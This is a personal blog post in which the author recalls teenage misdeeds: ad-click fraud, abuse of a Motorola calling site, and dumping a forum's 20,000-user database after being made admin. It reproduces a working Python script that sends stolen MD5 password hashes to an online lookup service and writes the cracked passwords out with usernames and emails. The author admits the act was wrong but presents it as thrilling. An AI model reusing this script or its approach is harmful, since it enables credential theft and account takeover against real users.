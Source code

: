 ```yaml
---
layout: post
title: A curious guy getting hands dirty
published: true
date: 2012-09-17
markdown: markdown
---
```

If I’m curious now, I was even more with 14 or 15 years old. It was the time when I got bored of my shitty C book and started learning Python with online tutorials. I spent so much time on IRC also, mostly in programming channels (although I almost only talked in those dedicated to Age Of Empires, yeah!). I met some people doing much more funny things that what I was doing. A group of friends created a script to auto-click on adsense banners. The group was super private, but I was invited. All of us had a personal blog, so we used the script to click once on each adsense banner every day, so at least we got 8 or 9 clicks a day. Not much, but It helped me buying a better computer (Athlon 3400+, from a P3 866Mhz) by the end of that year (2004 I think).

Ah, they also got access to a private site from Motorola where we could make free mobile calls, but it only lasted a couple of weeks until they noticed. I remember calling a irc-friend to Puerto Rico and talking with his confused mother…

In one of those channels I met a guy running a big website that it’s still running. In it’s first months, the site had more than 20.000 registered users, and don’t ask me why, he thought it would be great that I helped him managing the forums, so he gave me admin privileges. I went directly to the backups panel, looking for the users database. In less than 2 minutes a ~20Mb file was being downloaded with the first real SQL code I had saw.

When I tried to open it with gedit, my computer froze. I got more luck with vim, but I hated those shell-based text editors. The file was full of entries like this (real copy-paste from original):

{% highlight sql %}
INSERT INTO phpbb_users (user_id, user_active, username, user_password,
user_session_time, user_session_page, user_lastvisit, user_regdate,
user_level, user_posts, user_timezone, user_style, user_lang,
user_dateformat, user_new_privmsg, user_unread_privmsg,
user_last_privmsg, user_login_tries, user_last_login_try, user_emailtime,
user_viewemail, user_attachsig, user_allowhtml, user_allowbbcode,
user_allowsmile, user_allowavatar, user_allow_pm, user_allow_viewonline,
user_notify, user_notify_pm, user_popup_pm, user_rank, user_avatar,
user_avatar_type, user_email, user_icq, user_website, user_from, user_sig,
user_sig_bbcode_uid, user_aim, user_yim, user_msnm, user_occ,
user_interests, user_actkey, user_newpasswd) VALUES('4', '1', '[USERNAME]',
'87f6f9d078c3bc5db5578f3b4add9470', '2147483647', '0', '2147483647',
'2147483647', '0', '0', '0.00', '1', 'english', 'D M d, Y g:i a', '0',
'0', '0', '0', '0', NULL, '0', '1', '0', '1', '1', '1', '1', '1', '0',
'1', '1', '0', '', '0', '[USER_MAIL_ADDRESS]@hotmail.com', '', '', '', '', '', '',
'', '', '', '', '', NULL);
{% endhighlight %}

Obviously I have replaced the username and mail address. There were more than 20.000 entries like that in that file. Passwords were encrypted with MD5, but I knew some online tools like gdataonline (now offline) that could help me finding out the original password. This kind of sites have a huge dictionary of words and common passwords with their corresponding hashes. You search the hash, and get the original string back.

The best thing about gdataonline is that it accepted data via GET and gave the output via XML… That was just perfect for what I had in mind. What if I made a Python script to send the password hashes to gdataonline, and store the successful passwords with their usernames and mail addresses? Since many users use the same password for everything, I would have a really dangerous material. And that was exciting.

First, I made a simple script to split the huge file in 100 parts, so each file would have 200 entries. This had to purpouses:

* The idea of reading and parsing a 20Mb file in python didn’t attract me
* I didn't want to send 20.000 request to gdataonline

I could have got all the (username, mail, hash) tuples with a simple SELECT in SQL, and parse the received XML with pyXML. But I didn’t even consider it, I liked it the hard way, the only way I knew. So after some hours of coding, I got this:

{% highlight python %}
#!/usr/bin/env python
 # -*- coding: iso-8859-15 -*-
 import re
 import urllib
 import os

 def getPasswords():
   successful_passwords = 0
   num = 1

   file = r"inputFile001" #Change this for every file
   text = open(file, "r")
   content = text.read()
   text.close()
   user = re.findall("VALUES.*?;", content)

   output_file = r"outputFile001" #Change this for every file
   foo = open(output_file, "w")

   spaces = " "*32
   foo.write("Nickname" + spaces + "Password" + spaces + "Mail" + "\r")
   foo.write('-' * 90 + "\r")

   for i in user:
     nickname = i.split()[2].strip(",").strip("'")
     mail = i.split()[39].strip(",").strip("'")

     f = urllib.urlopen("http://gdataonline.com/qkhash.php?mode=xml&amp;hash=%s" % i.split()[3].strip(",").strip("'"))
     xml = f.read()
     passwords = re.findall(".*?", xml)

     if passwords: # If we get the original
    password = passwords[0].split("").pop().split("")[0]
         successful_passwords +=1

    foo.write(nickname.ljust(40) + password.ljust(40) + mail.ljust(22))
    foo.write("\r")

     os.system("clear")
     print "Total: %i" % len(user)
     print "Analized: %i" % num
     print "Found: %i" % successful_passwords

     num += 1

   foo.close()
   print "%i passwords have been found" % successful_passwords

 if __name__ == '__main__':
   getPasswords()
{% endhighlight %}

Tachan! Probably not the most beautiful, organized, well documented, optimized or fast code you have seen, but you can imagine what I felt when I opened my just created file (obviously I changed data)…

|_.Nickname|_.Password|_.Mail|
|john|mylove_1234|johny_the_cool@hotmail.com|
|mike|kansas70000|the_big_boy@yahoo.com|
|admin|lalalalaImDaAdmin|admin@thissite.com|
|....|....|....|


I got  ~30% of passwords revealed, 60 passwords per file, 6000 passwords in total.

This was the time I realised how funny and useful programming could be. I didn’t have any other intention that doing something to get a real result, no more ordering lists or math problems. I felt important, I knew that what I had done wasn’t right, and probably was illegal, but it gave me the satisfaction I needed to keep learning, with more enthusiasm than ever.